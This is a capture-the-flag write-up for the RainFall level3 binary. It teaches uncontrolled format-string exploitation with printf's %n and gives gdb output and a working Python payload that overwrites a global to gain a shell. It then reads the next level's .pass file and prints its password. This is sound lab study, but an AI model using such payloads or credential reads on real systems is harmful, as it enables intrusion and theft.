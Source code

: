 

"fuzzing or fuzz testing = testing technique that involves providing invalid, unexpected, or random data
as inputs to a computer program = The program then crashes"

"one key thing in hacking is about giving non intended inputs to programs and observe its behavior"

retrieve five parameters from the stack and display them as 8-digit padded hexa
```
level3@RainFall:~$ ./level3

%08x %08x %08x %08x %08x

00000200 b7fd1ac0 b7ff37d0 78383025 38302520
```
Uncontrolled format string

"One may also write arbitrary data to arbitrary locations using the %n format token, which commands printf()
and similar functions to write the number of bytes formatted to an address stored on the stack."

wiki

%n is a special format specifier which instead of printing something causes printf() to load the variable pointed by the corresponding argument with a value equal to the number of characters that have been printed by printf()  before the occurrence of %n
https://www.geeksforgeeks.org/g-fact-31/

```
#include<stdio.h>

int main()
{
   int c;
   printf("123456789A%n     \n", &c);
   printf("%d", c);
   return 0;
    
    // output
    // 123456789A     
    // 10   
}
```

"the %n parameter, which writes the number of bytes already printed, into a variable of our choice.
The address of the variable is given to the format function by placing an integer pointer as parameter onto the stack."
https://cs155.stanford.edu/papers/formatstring-1.2.pdf

```
(gdb) run <<< "AAAA %p %p %p %p %p"

finding the offset of our input string in the stack
 
esp after fgets

(gdb) f
0xbffff4e0:	0xbffff4f0	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff4f0:	0x41414141	0x20702520	0x25207025	0x70252070

level3@RainFall:~$ ./level3
AAAA %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520
```

41414141(the 4th hex value), 41 represent A so 4 is the offset of our input string in the stack.

from [the stanford article](https://cs155.stanford.edu/papers/formatstring-1.2.pdf):

```
a way to directly address a stack parameter from within the format string[...]
The direct parameter access is controlled by the ‘$’ qualifier.
printf ("%6$d\n", 6, 5, 4, 3, 2, 1);
Prints ‘1’, because the ‘6$’ explicitly addresses the 6th parameter on the
stack. 
```
```
Overwriting memory at any location

In printf(), %n is a special case format specifier. Instead of being replaced by a function argument,
%n will cause the number of characters written so far to be stored into the corresponding function argument.

For example, the following code will store the integer 5 into the variable num_char.

int num_char; 
printf("11111%n", &num_char);

https://vickieli.dev/binary%20exploitation/format-string-vulnerabilities/#overwriting-memory-at-any-location
```

so in our case

```
level3@RainFall:~$ ./level3
AAAA %p %4$x
AAAA 0x200 41414141
```

```
=> 0x080484df <+59>:	cmp    $0x40,%eax

(gdb) p $eax
$3 = 64

(gdb) p m
$4 = 64

(gdb) x/d 0x804988c
0x804988c <m>:	64

level3@RainFall:~$ (python -c 'print "\x08\x04\x98\x8c"[::-1] + "A" * 60 + "%4$n"' ; cat ) | ./level3
�AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
pwd
/home/user/level3
whoami
level4
cat //home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
"A" * 60 <===> "%60c"

`(python -c 'print "\x08\x04\x98\x8c"[::-1] + "%60d" + "%4$n"' ; cat) | ./level3`

ressource

[1](https://medium.com/@gurdeeps158/exploit-format-string-vulnerability-in-printf-6740d9ff057e)

[2](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b)





